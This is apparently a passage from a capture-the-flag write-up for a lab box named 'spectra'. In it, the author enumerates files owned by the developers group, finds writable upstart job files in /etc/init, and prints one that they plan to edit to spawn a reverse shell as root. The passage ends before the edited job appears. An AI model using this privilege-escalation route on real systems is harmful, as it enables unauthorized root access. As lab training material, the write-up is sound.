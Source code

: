 ```bash
  log-priority                Change the minimum priority of log messages from the init daemon
  show-config                 Show emits, start on and stop on details for job configurations.
  help                        display list of commands
```

Once katie's is a member of the **developers** group, decided to look for files where this group was under the permissions and found some files in `/etc/init` folder, listed as jobs by `initctl`.

```bash
katie@spectra ~ $ find / -group developers 2>/dev/null
/etc/init/test6.conf
/etc/init/test7.conf
/etc/init/test3.conf
/etc/init/test4.conf
/etc/init/test.conf
/etc/init/test8.conf
/etc/init/test9.conf
/etc/init/test10.conf
/etc/init/test2.conf
/etc/init/test5.conf
/etc/init/test1.conf
/srv
/srv/nodetest.js
katie@spectra ~ $ ls -la /etc/init/test*
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test.conf
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test1.conf
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test10.conf
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test2.conf
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test3.conf
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test4.conf
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test5.conf
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test6.conf
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test7.conf
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test8.conf
-rw-rw---- 1 root developers 478 Jun 29  2020 /etc/init/test9.conf
```

To gain root access, I just needed to change one of the job files to get a reverse shell and then get the root's flag.

I have chosen the file `/etc/init/test10.conf`, which had the content below, and changed only the script section, as the second block shared below.

```bash
katie@spectra ~ $ cat /etc/init/test10.conf
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script

    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script
```
